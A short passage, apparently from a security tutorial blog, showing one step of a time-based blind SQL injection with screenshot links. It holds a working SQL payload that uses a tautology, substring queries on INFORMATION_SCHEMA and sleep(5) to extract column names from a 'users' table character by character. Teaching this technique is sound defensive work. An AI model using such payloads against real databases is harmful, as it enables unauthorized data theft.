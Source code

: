 [![sqlinjectblindsleep18](/images/sqlinjectblindsleep18.png){:target="_blank"}](https://raw.githubusercontent.com/NPTG24/nptg24.github.io/master/images/sqlinjectblindsleep18.png)

```sql
' or 1=1 AND substring((SELECT column_name FROM INFORMATION_SCHEMA.COLUMNS WHERE table_name='users' LIMIT 2,1),4,1) = 's' AND sleep(5)-- -
```

[![sqlinjectblindsleep19](/images/sqlinjectblindsleep19.png){:target="_blank"}](https://raw.githubusercontent.com/NPTG24/nptg24.github.io/master/images/sqlinjectblindsleep19.png)
